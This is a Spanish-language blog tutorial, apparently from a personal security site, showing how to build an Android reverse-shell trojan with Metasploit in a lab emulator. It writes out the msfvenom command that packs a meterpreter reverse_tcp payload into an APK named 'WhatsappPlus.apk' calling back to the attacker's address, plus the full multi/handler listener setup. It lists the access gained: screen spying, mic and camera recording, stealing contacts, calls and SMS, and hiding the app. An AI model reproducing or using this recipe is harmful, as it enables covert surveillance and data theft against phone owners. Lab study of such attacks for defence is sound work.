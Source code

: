 ```yaml
---
layout: post
category: red
tags: hack android meterpreter msfvenom msfconsole metasploit
author: RedDev
title : Vamos a hackear un móvil android
---
```


# Introducción
En este artículo vamos a conocer una de las maneras más comunes con las cuales los hackers ganan acceso a nuestros dispositivos android.

# Herramientas a utilizar 
- Emulador android 7.0
- Sistema Kali Linux
- Metasploit

# Manos a la obra
## 1.Creando el payload
Para este fin usaremos msfvenom, una de las herramientas de MetasPloit, como nuestro objetivo es un móvil android usaremos el siguiente comando:
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.126.145 LPORT=4444 R > WhatsappPlus.apk
```
Siendo LHOST nuestra ip, en este caso privada y el LPORT el puerto de escucha.
El payload es de tipo meterpreter, este tipo de virus es muy peligroso ya que funciona por medio de inyecciones dinamicas en memoria, lo que lo hace difícil de detectar y además permite el uso de otros exploits de forma fácil.
![image](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/602b5004-d20c-4eb2-b4dc-477b00588fea)

## 2.Configurando el listener
Primero abrimos msfconsole
```bash
msfconsole
```
Tras esto usamos: 
```bash
use multi/handler/
set payload android/meterpreter/reverse_tcp
```
Tras esto configuraremos el listener.
Por defecto está así:
```bash
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (android/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```
Por lo que solo tendremos que configurar nuestro LHOST de esta forma:
```bash
set lhost eth0
```
Siendo eth0 nuestra interfaz de red por la que estaremos en escucha, aunque también podemos escribir nuestra IP privada a mano
Trás esto escribimos:
```bash
run
```
Y a funcionar :)
![Captura de pantalla 2023-05-26 012015](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/f76b45b1-7bbe-48ed-8612-ca4dfa19eb5b)

## 3.Enviando e instalando el apk maliciosa
Descargamos la apk en el dispositivo:
![Captura de pantalla 2023-05-26 011816](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/cd602b93-315a-4959-bde3-410427a4595d)

Ahora procedemos a instalarla, y una vez abierta, obtenemos la sesión:



Ahora vamos a ver las opciones que nos brinda este tipo de virus:
![Captura de pantalla 2023-05-26 012250](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/c1827fef-4c27-4f0c-be32-e7edb706510d)
![Captura de pantalla 2023-05-26 012320](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/31ab0f89-9fde-4f06-8345-e7d3660fa3c6)

Entre las opciones que nso brinda esta:
- Espiar la pantalla del dispositivo
- Grabar el micrófono o la webcam
- Iniciar aplicaciones
- Enviar SMSs
- Geolocalizar el dispositivo
- Robar el historial de llamadas, contactos, SMSs
- Esconder la aplicación maliciosa
- Instalar aplicaciones...

# Conclusiones
Como veis este tipo de virus son muy peligrosos, pudiendo hacer mucho daño al usuario.
Como disclamer, quiero recalcar que este método no es efectivo a día de hoy ya que el antivirus de android y lo "extraña que es la app", es difícil de hacela efectiva esta técnica, para esto se utilizan diversas técnicas como ofuscación o esconder el payload en una app veridica y de esta forma usar la app como caballo de troya.

